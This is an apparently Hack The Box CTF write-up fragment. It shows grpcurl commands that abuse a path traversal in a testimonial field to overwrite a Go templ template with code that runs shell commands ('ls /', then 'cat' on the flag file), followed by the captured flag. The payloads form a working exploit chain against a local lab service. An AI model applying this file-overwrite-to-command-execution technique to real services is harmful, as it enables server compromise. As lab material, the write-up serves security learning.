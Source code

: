 ```go

templ Index() {
    @template(hack())
}

templ template(items []string) {
    for _, item := range items {
        {item}
    }
}
```
{% endcode %}

Ask ChatGPT to escape it for me ofc 😁

{% code overflow="wrap" %}
```bash
./grpcurl -plaintext -d '{"customer": "../../view/home/index.templ", "testimonial": "package home\n\nimport (\n\t\"os/exec\"\n\t\"strings\"\n)\n\nfunc hack() []string {\n\toutput, _ := exec.Command(\"ls\", \"/\").CombinedOutput()\n\tlines := strings.Fields(string(output))\n\treturn lines\n}\n\ntempl Index() {\n\t@template(hack())\n}\n\ntempl template(items []string) {\n\tfor _, item := range items {\n\t\t{item}\n\t}\n}" }' -import-path challenge/pb/ -proto ptypes.proto 127.0.0.1:50045 RickyService.SubmitTestimonial

{
  "message": "Testimonial submitted successfully"
}
```
{% endcode %}

Reload the page and get the flag filename, then update our command.

{% code overflow="wrap" %}
```bash
./grpcurl -plaintext -d '{"customer": "../../view/home/index.templ", "testimonial": "package home\n\nimport (\n\t\"os/exec\"\n\t\"strings\"\n)\n\nfunc hack() []string {\n\toutput, _ := exec.Command(\"cat\", \"/flagbba4cb647c.txt\").CombinedOutput()\n\tlines := strings.Fields(string(output))\n\treturn lines\n}\n\ntempl Index() {\n\t@template(hack())\n}\n\ntempl template(items []string) {\n\tfor _, item := range items {\n\t\t{item}\n\t}\n}" }' -import-path challenge/pb/ -proto ptypes.proto 127.0.0.1:50045 RickyService.SubmitTestimonial

{
  "message": "Testimonial submitted successfully"
}
```
{% endcode %}

Flag: `HTB{w34kly_t35t3d_t3mplate5}`
